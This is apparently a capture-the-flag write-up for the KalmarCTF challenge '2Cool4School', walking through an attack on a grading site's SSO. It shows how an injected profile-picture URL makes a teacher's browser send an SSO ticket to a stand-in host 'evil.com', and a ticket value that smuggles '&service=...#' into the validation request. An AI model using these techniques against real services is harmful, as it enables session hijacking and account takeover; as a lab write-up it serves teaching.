


# 2Cool4School

#### Score: 896

> If you have any questions, I'll be glad to answer them. You can do so by opening an issue.

## Description

I just started at uni, but can't be bothered to show up. For some reason my Cyber Sec grade is F. Please help me get an A!

http://grade.chal-kalmarc.tf

**Hint:** Clarification: You have to change your own grade. Changing the grade gives you the flag when viewing your grades

## Write UP


This challenge is all about attacking the webserver of a university, and changing your own grades. A very relatable challenge. Let's start by exemining the website:

In the [main site](http://grade.chal-kalmarc.tf) we are presented with the option to login and not much else. 



However, an interesting thing we should note for later is the fact that Chrome shows us some interesting JS files, which are included to the site, and exposing some api endpoints:


If we press on the **login** button, we are redirected to a different domain, http://sso.chal-kalmarc.tf.


But we aren't provided with any credentials, and the classic attempts of brute-forcing common credentials, performing SQLi and so on won't work here.

### Getting Credentials

If we'd take a look at the source HTML of the SSO page we'll soon notice a peculiar comment: 
```html
<!--TODO: Update swagger to latest script version-->
```
A quick Google search will tell us that Swagger is a platfrom for automatic API documentation. We can either [Google for common paths](https://medium.com/@ghostlulzhacks/swagger-api-c07eca05441e), or just try the URL `http://sso.chal-kalmarc.tf/swagger`, and we are presented with API documentation!



Right now, the part relevent to us is the `/register` endpoint. According to the documentation, we should simply make a post request to the URL `http://sso.chal-kalmarc.tf/register`, and receive credentials. When we do that:

```bash
curl -X POST http://sso.chal-kalmarc.tf/register
```

We actually get credentials!
```json
{"username":"student76961","password":"bf2bb47e71e4bfef81ea0868967c726c"}
```

Now after logging in, we are presented with a page to configure our user. 


When we upload a tiny PNG, this is the request being made:


And after we finish the configuration process, we are presented with an option to view our grades:


Notice the option to `Request re-evaluation`, which makes a `POST` request to `/whine`. I assumed that it makes a teacher view your grade sheet. This tells us that the challenge probably includes some elements of client side exploitation.

### Finding a CSRF

The request to `/whine` does make it seem like there's a client side vulnerability hiding somewhere. You might feel inclined to start looking at the profile configuration page, as image upload is always a good place to start at.

Because pressing the `/whine` button prompts the teacher to view our grades, it's reasonable to assume he's also going to see our username and profile picture. Because the UI is made with React, we can also confirm it by looking at the sources we saw before, in `/static/js/pages/Grades.js`:

```js
{this.props.user?.role === 'teacher' && this.props.params.id ?
...
<Avatar alt={this.state.studentProfile?.name} src={this.state.studentProfile?.picture} />
```

The `Avatar` components translates in the end to an `img` tag, with the `src` field being the same one specified above.

If you'd try to escape the attribute by injecting various characters you'd soon discover it's impossible, because React is sanitizing it. But because the `picture` field of the `HTTP` request is included as the `src` of the image, it's possible to supply a regular HTTP URL instead of a [data URL](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs). We `POST` our changes to the configuration with the following data:

```json
{
    "name":"user",
    "picture":"http://evil.com"
}
```

And whenever we or our teacher view our profile picture, it will make a `GET` request to the URL we specified!

This doesn't sound that useful, but after closer examination of the SSO architecture you might think otherwise.

### The SSO

By reading the documentation, and sniffing the requests our client makes when logging in, it's possible to deduce the architecture of authentication using the SSO:

1. We make a `GET` request to `http://grade.chal-kalmarc.tf/login`, which redirects us to `http://sso.chal-kalmarc.tf/login?service=http://grade.chal-kalmarc.tf/login`
2. If we already have an authenticated cookie, `sso` returns a redirect to `http://grade.chal-kalmarc.tf/login&ticket=TGT-1234...`. Notice the inclusion of the ticket parameter to the URL.
3. We can't see this part as the validation happens between `grade` and the `sso`, but accroding to the documentation we can assume that `grade` makes the following request: `http://sso.chal-kalmarc.tf/validate?ticket=TGT-1234...&service=http://grade.chal-kalmarc.tf/login`. It then receives an answer if the ticket is valid for the service specified.

One interesting thing to note is that the SSO seems to be very general. That is, it was not made specifically for the `grade` website, and can be used to generate tickets for other services.

If we'll try to generate a ticket to a service in our control, lets say `http://evil.com`, we can make someone `GET` the following URL: `http://sso.chal-kalmarc.tf/login?service=http://evil.com`, and they will be redirected to `http://evil.com?ticket=TGT-1234...`:


So by redirecting someone to `http://sso.chal-kalmarc.tf/login?service=http://evil.com` we are able to induce a `GET` request to `http://evil.com?ticket=TGT-1234...`, which contains a ticket to `http://evil.com` in it.

### A Ticket to Another Service

So we might be able to get a ticket to another service. What can we do with it?

We still haven't tried to attack the ticket validation process of `grade.chal-kalmarc.tf`, so lets put ourselves in the developer's shoes and try to think about how they'd implement it.

In pseudocode, it might be implemented in a way resembling:
```python
if path == "/login" and "ticket" in params
    response = get("http://sso.chal-kalmarc.tf/validate?ticket=" + params["ticket"] + "&service=http://grade.chal-kalmarc.tf/login")
    if response.valid
        return autherized
```

And if that's the case (and as you will see, it is the case), we might be able to inject params and modify the structure of the URL.
When submitting a ticket with the following value: `TGT&service=abc#`, the theoretical validation process as showed in the pseudocode above will generate the following `GET` request:
```
GET /validate?ticket=TGT&service=abc#&service=http://grade.chal-kalmarc.tf/login
```
In that case, we were able to make `grade.chal-kalmarc.tf` validate a different service - Everything coming after the hash sign `#` is ignored, and the service being requested for validation is `abc`.

So, by submiting a valid ticket for the service `http://evil.com` in the following manner: `http://grade.chal-kalmarc.tf/login?ticket=TGT-1234...%26service%3dhttp://evil.com%23`, we are able to make `grade.chal-kalmarc.tf` validate the ticket against the service `http://evil.com`, which should come out as valid.

Notice that I URL-encoded key characters in the example above, `&`, `=` and `#`.


### The Attack Chain to Login as a Teacher

So right now, our attack chain looks something like this:

1. Set the `picture` field in the profile picture upload `HTTP` request to a URL structured like this: `http://sso.chal-kalmarc.tf/login?service=http://evil.com`, in which `evil.com` is a domain under our control.
2. We will press the `whine` button which will make the teacher view the grades, sending a `GET` request to the URL specified above.
3. Because the teacher is already logged in to the `sso` service, they should be redirected to `http://evil.com?ticket=TGT-1234...`, with a ticket valid for the account of the teacher and `http://evil.com`.
4. We listen for incoming requests on `http://evil.com`, and when one comes we save the ticket attached to it.
5. We then request the following URL from our own web browser, with the ticket we just got:  `http://grade.chal-kalmarc.tf/login?ticket=TGT-1234...%26service%3dhttp://evil.com%23`
4. The `grade` site makes the following `GET` request to `http://sso.chal-kalmarc.tf/validate?ticket=TGT-1234...&service=http://evil.com#&service=http://grade.chal-kalmarc.tf/login`
5. The `sso` service returns that the ticket is valid, as it thinks it's being authenticated against the `http://evil.com` service.

And poof! We are authenticated as a teacher.

### Getting the Student ID

The site as a teacher is pretty buggy, probably due to limitations of the many CTF participantes using the same `grade.chal-kalmarc.tf` machine.
To access the grade sheet of a student you need to specify their ID. The problem is that the ID didn't show anywhere in the site itself, so the way I used to get felt a bit hacky.

I just logged in as a student, generated a ticket, and then validated it. You get the user ID as a part of the response to `http://sso.chal-kalmarc.tf/validate`:


### Changing the Grade

Now that we are logged in as a teacher and have the ID of the student, we are able to access our grades:


We have a feature to change a comment, but not to change a grade. This is how it looks:


When trying to change a `grade` instead of a `note` we get the follwoing message:


A workaround for that is to just use a capitalized version of `grade`, and it works :)


And now when accessing the grades page as the student:


